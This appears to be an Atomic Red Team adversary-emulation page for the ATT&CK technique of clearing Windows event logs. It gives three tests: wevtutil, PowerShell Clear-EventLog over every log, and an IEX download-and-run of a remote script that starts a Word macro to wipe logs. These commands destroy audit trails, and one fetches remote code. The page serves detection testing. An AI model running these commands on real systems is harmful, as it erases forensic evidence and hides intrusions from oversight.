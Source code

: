 # T1070.001 - Clear Windows Event Logs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1070/001)
<blockquote>Adversaries may clear Windows Event Logs to hide the activity of an intrusion. Windows Event Logs are a record of a computer's alerts and notifications. There are three system-defined sources of events: System, Application, and Security, with five event types: Error, Warning, Information, Success Audit, and Failure Audit.

The event logs can be cleared with the following utility commands:

* <code>wevtutil cl system</code>
* <code>wevtutil cl application</code>
* <code>wevtutil cl security</code>

These logs may also be cleared through other mechanisms, such as the event viewer GUI or [PowerShell](https://attack.mitre.org/techniques/T1059/001).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Clear Logs](#atomic-test-1---clear-logs)

- [Atomic Test #2 - Delete System Logs Using Clear-EventLog](#atomic-test-2---delete-system-logs-using-clear-eventlog)

- [Atomic Test #3 - Clear Event Logs via VBA](#atomic-test-3---clear-event-logs-via-vba)


<br/>

## Atomic Test #1 - Clear Logs
Upon execution this test will clear Windows Event Logs. Open the System.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty.

**Supported Platforms:** Windows


**auto_generated_guid:** e6abb60e-26b8-41da-8aae-0c35174b0967





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| log_name | Windows Log Name, ex System | String | System|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wevtutil cl #{log_name}
```






<br/>
<br/>

## Atomic Test #2 - Delete System Logs Using Clear-EventLog
Clear event logs using built-in PowerShell commands.
Upon successful execution, you should see the list of deleted event logs
Upon execution, open the Security.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty or has very few logs in it.

**Supported Platforms:** Windows


**auto_generated_guid:** b13e9306-3351-4b4b-a6e8-477358b0b498






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$logs = Get-EventLog -List | ForEach-Object {$_.Log}
$logs | ForEach-Object {Clear-EventLog -LogName $_ }
Get-EventLog -list
```






<br/>
<br/>

## Atomic Test #3 - Clear Event Logs via VBA
This module utilizes WMI via VBA to clear the Security and Backup eventlogs from the system. 

Elevation is required for this module to execute properly, otherwise WINWORD will throw an "Access Denied" error

**Supported Platforms:** Windows


**auto_generated_guid:** 1b682d84-f075-4f93-9a89-8a8de19ffd6e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1070.001\src\T1070.001-macrocode.txt" -officeProduct "Word" -sub "ClearLogs"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
